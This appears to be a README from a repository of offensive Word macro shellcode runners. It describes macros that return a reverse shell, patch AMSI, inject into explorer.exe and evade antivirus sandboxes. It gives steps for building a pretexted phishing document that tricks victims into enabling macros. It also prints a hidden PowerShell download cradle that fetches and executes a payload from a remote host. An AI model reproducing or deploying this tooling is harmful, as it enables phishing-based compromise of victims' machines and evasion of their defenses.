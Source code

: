 # Macro Shellcode Runners

## ToC

| Application | Notes |
| ----------- | ----- |
| `WordMacroRunner.vbs` | Baseline runner that will return a shell from WINWORD.exe, bypass AMSI, & run on both 64-bit and 32-bit |
| `WordMacroRunnerBasic.vbs` | Basic shellcode runner. `WordMacroRunner.vbs` without AMSI bypass or IP check |
| `WordMacroInject.vbs` | Inject into `explorer.exe` (*only good for 64-bit word*) | 
| `WordPsCradle.vbs` | Macro with Caesar Cipher encoding that calls a PS download cradle |
| `vbObfuscate.ps1` | PS script to generate Caesar Cipher code for `WordPsCradle.vbs` |


### Setup/formatting information:
1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.

## `WordMacroRunner.vbs`
This is a baseline runner that will return a shell from WINWORD.exe. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture. 

The only apparent obfuscation on the shellcode itself is that its written in an integer array, no encoding/encrypting. Uses sleep calls to determine if being simulated by AV. Also makes sure the target is in the `192.68.0.0/16` IP range.

## `WordMacroRunnerBasic.vbs`
This is just a basic version of `WordMacroRunner.vbs` without AMSI Bypass or IP Check.

## `WordPsCradle.vbs`
Macro with Caesar Cipher encoding that calls a PowerShell download cradle.  Use with `vbObfuscate.ps1` to generate and replace obfuscated text in `WordPsCradle.vbs`. This uses WMI dechaining, so **still use x64 shellcode even if you are targeting x86 word**!

## `vbObfuscate.ps1`
Powershell script to generate Caesar Cipher code for `WordPsCradle.vbs`.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 

**This is where you would edit the PS Cradle you would like to run**. The default is:
```ps1
powershell -exec bypass -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://192.168.49.66/attach.txt')
```

## `WordMacroInject.vbs`
This macro performs process injection.  Currently specified for `explorer.exe`. The only apparent obfuscation on the shellcode itself is that its written in an integer array, no encoding/encrypting. Uses sleep calls to determine if being simulated by AV.

**NOTE: This runner is really only good for 64-bit word**.  Seeing as we have no idea what version of word an organization will be running, the use case for this is limited.  The issue stems from the fact that 32 bit processes cannot easily inject into 64 bit ones; The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossible.

There are advanced techniques out there that might be able to facilitate this (*Heaven's gate*) but no idea if they could be implemented in VBA. Additionally there is no telling what/if any other 32 bit processes suitable for injection might be running on a target machine.

In theory code could be written to enumerate running 32 bit processes and then just try to inject into an arbitrary one, but there are obvious issues concerning stability, and longevity of the process to maintain a reverse shell.  In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.

